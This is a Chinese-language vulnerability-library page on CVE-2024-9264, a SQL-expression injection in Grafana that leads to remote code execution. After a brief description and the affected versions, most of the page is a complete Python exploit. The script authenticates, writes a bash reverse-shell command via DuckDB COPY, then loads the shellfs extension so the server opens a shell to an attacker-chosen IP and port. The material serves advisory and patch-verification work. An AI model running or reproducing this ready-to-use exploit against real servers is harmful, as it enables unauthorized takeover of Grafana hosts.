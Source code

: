 ```yaml
---
title: Grafana SQL表达式允许远程代码执行(CVE-2024-9264)
date: 2025-06-14 23:16:00 +0800
last_modified_at: 2025-06-14 23:16:00 +0800
categories: [漏洞库]
tags: [漏洞库 , RCE , Grafana]
math: true
mermaid: true
---
```



# 0x00 前言
Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知。用Go语言开发的开源数据可视化工具，可以做数据监控和数据统计，带有告警功能。目前使用grafana的公司有很多，如paypal、ebay、intel等。

# 0x01 漏洞描述
Grafana实验性SQL表达式功能中的一个DuckDB SQL注入漏洞。这些查询在传递给之前未经过充分清理duckdb，导致命令注入和本地文件包含漏洞。

漏洞源于一个名为 “SQL 表达式 ”的实验性功能，它允许用户使用 SQL 对数据源查询进行后处理。

攻击者可以精心设计查询，摆脱预定的 SQL 上下文，执行系统命令或访问服务器上的敏感文件。

# 0x02 CVE编号

**CVE-2024-9264**

# 0x03 影响版本

Grafana >= v11.0.0 (all v11.x.y are impacted)

# 0x04 漏洞详情
[**POC**](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)：`https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit`

Usage：`python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]`

Example：`python poc.py --url http://127.0.0.1:3000 --username eviluser --password eviluser --reverse-ip 10.10.1.41 --reverse-port 9001`

    import requests
    import argparse

    """
    Grafana Remote Code Execution (CVE-2024-9264) via SQL Expressions
    See here: https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

    Author: z3k0sec // www.zekosec.com
    """

    def authenticate(grafana_url, username, password):
        """
        Authenticate to the Grafana instance.

        Args:
            grafana_url (str): The URL of the Grafana instance.
            username (str): The username for authentication.
            password (str): The password for authentication.

        Returns:
            session (requests.Session): The authenticated session.
        """
        # Login URL
        login_url = f'{grafana_url}/login'

        # Login payload
        payload = {
            'user': username,
            'password': password
        }

        # Create a session to persist cookies
        session = requests.Session()

        # Perform the login
        response = session.post(login_url, json=payload)

        # Check if the login was successful
        if response.ok:
            print("[SUCCESS] Login successful!")
            return session  # Return the authenticated session
        else:
            print("[FAILURE] Login failed:", response.status_code, response.text)
            return None  # Return None if login fails

    def create_reverse_shell(session, grafana_url, reverse_ip, reverse_port):
        """
        Create a malicious reverse shell payload in Grafana.

        Args:
            session (requests.Session): The authenticated session.
            grafana_url (str): The URL of the Grafana instance.
            reverse_ip (str): The IP address for the reverse shell.
            reverse_port (str): The port for the reverse shell.
        """
        # Construct the reverse shell command
        reverse_shell_command = f"/dev/tcp/{reverse_ip}/{reverse_port} 0>&1"

        # Define the payload to create a reverse shell
        payload = {
            "queries": [
                {
                    "datasource": {
                        "name": "Expression",
                        "type": "__expr__",
                        "uid": "__expr__"
                    },
                    # Using the reverse shell command from the arguments
                    "expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';",
                    "hide": False,
                    "refId": "B",
                    "type": "sql",
                    "window": ""
                }
            ]
        }

        # Send the POST request to execute the payload
        response = session.post(
            f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
            json=payload
        )

        if response.ok:
            print("Reverse shell payload sent successfully!")
            print("Set up a netcat listener on " + reverse_port)
        else:
            print("Failed to send payload:", response.status_code, response.text)

    def trigger_reverse_shell(session, grafana_url):
        """
        Trigger the reverse shell binary.

        Args:
            session (requests.Session): The authenticated session.
            grafana_url (str): The URL of the Grafana instance.
        """
        # SQL command to trigger the reverse shell
        payload = {
            "queries": [
                {
                    "datasource": {
                        "name": "Expression",
                        "type": "__expr__",
                        "uid": "__expr__"
                    },
                    # install and load the community extension "shellfs" to execute system commands (here: execute our reverse shell)
                    "expression": "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');",
                    "hide": False,
                    "refId": "B",
                    "type": "sql",
                    "window": ""
                }
            ]
        }

        # Trigger the reverse shell via POST
        response = session.post(
            f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
            json=payload
        )

        if response.ok:
            print("Triggered reverse shell successfully!")
        else:
            print("Failed to trigger reverse shell:", response.status_code, response.text)

    def main(grafana_url, username, password, reverse_ip, reverse_port):
        # Authenticate to Grafana
        session = authenticate(grafana_url, username, password)

        if session:
            # Create the reverse shell payload
            create_reverse_shell(session, grafana_url, reverse_ip, reverse_port)

            # Trigger the reverse shell binary
            trigger_reverse_shell(session, grafana_url)

    if __name__ == "__main__":
        # Set up command line argument parsing
        parser = argparse.ArgumentParser(description='Authenticate to Grafana and create a reverse shell payload')
        parser.add_argument('--url', required=True, help='Grafana URL (e.g., http://127.0.0.1:3000)')
        parser.add_argument('--username', required=True, help='Grafana username')
        parser.add_argument('--password', required=True, help='Grafana password')
        parser.add_argument('--reverse-ip', required=True, help='Reverse shell IP address')
        parser.add_argument('--reverse-port', required=True, help='Reverse shell port')

        args = parser.parse_args()

        # Call the main function with the provided arguments
        main(args.url, args.username, args.password, args.reverse_ip, args.reverse_port)
